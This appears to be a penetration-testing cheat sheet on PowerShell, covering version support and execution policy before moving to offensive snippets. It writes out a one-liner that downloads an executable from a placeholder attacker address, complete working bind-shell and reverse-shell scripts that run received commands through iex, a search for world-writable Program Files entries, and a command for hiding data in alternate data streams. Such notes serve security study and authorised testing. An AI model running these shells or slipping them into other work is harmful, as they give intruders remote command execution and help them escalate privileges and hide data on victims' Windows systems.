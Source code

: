 
[PowerShell](https://docs.microsoft.com/en-us/powershell/) 5.0 runs on the following versions of Windows:  
• Windows Server 2016, installed by default  
• Windows Server 2012 R2/Windows Server 2012/Windows Server 2008 R2 with Service Pack 1/Windows 8.1/Windows 7 with Service Pack 1 (install Windows Management Framework 5.0 to run it)  
  
PowerShell 4.0 runs on the following versions of Windows:  
• Windows 8.1/Windows Server 2012 R2, installed by default  
• Windows 7 with Service Pack 1/Windows Server 2008 R2 with Service Pack 1 (install Windows Management Framework 4.0 to run it)  
  
PowerShell 3.0 runs on the following versions of Windows:  
• Windows 8/Windows Server 2012, installed by default  
• Windows 7 with Service Pack 1/Windows Server 2008 R2 with Service Pack 1/2 (install Windows Management Framework 3.0 to run it)  

  
[https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py](https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py)  
  
The default policy is “Restricted”, which effectively means the system will neither load PowerShell configuration files nor run PowerShell scripts  
  
## To set an Unrestricted policy:  
• Run PowerShell as an Administrator  
• **Set-ExecutionPolicy Unrestricted**  
  
Verify with **Get-ExecutionPolicy**   
  
**-c** - Execute given command (wrapped in double-quotes)  
**new-object** - Cmdlet that allows instantiation of either a .NET framework or COM object  
**iex** - Cmdlet that evaluates or runs a specified string as a command and returns the results of the expression or command  
  

## File transfer:
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://ip address/wget.exe','C:\Users\*****\Desktop\wget.exe')"  
wget.exe -V
```
- **WebClient** class, which is defined and implemented in the [System.Net](https://docs.microsoft.com/en-us/dotnet/api/system.net?view=netframework-4.7.2) namespace.  
	- The **WebClient** class is used to access resources identified by a URI and it exposes a public method called **DownloadFile**  
- **DownloadFile** requires two key parameters: a source location (in the form of a URI as we previously stated), and a target location where the retrieved data will be stored.

## Bind Shell:
Use **-n** when connecting w/ [netcat](netcat.md) as bind shell may not always present command prompt on initial connection.
```powershell
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);  
$listener.start();  
$client = $listener.AcceptTcpClient();  
$stream = $client.GetStream();  
[byte[]]$bytes = 0..65535|%{0};  
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)  
{  
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);  
    $sendback = (iex $data 2>&1 | Out-String );  
    $sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';  
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);  
    $stream.Write($sendbyte,0,$sendbyte.Length);  
    $stream.Flush()  
}  
$client.Close();  
$listener.Stop();
```

## Reverse Shells:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('ip address',port);   
$stream = $client.GetStream();   
[byte[]]$bytes = 0..65535|%{0};   
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)   
{   
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);   
    $sendback = (iex $data 2>&1 | Out-String );   
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';   
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);   
    $stream.Write($sendbyte,0,$sendbyte.Length);   
    $stream.Flush();   
}   
$client.Close();
```


## Find RW files & directories (here w/in the Program Files dir):  
```powershell
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```


## List drivers:  
```powershell
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path
```


## Find driver version:
```powershell
Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
```


## Cmdlets:

**Get-EventLog** - Query Windows Events/ Log parser
	**-LogName** - Name of log to retrieve
	**|** - Can pip for more detailed info
		Ex:
 ```powershell
Get-EventLog -LogName <log> | Format-List -Property * ; | Format-List -Property EventId, Message
```

**Get-Content** - Similar to cat
**Get-ChildItem** - Gets items in one or more specified locations
**Set-Content** -Used to create content and ADS streams
	Ex:
```powershell
Set-Content -Path <.\file.ext> -Stream <ads.ext>
```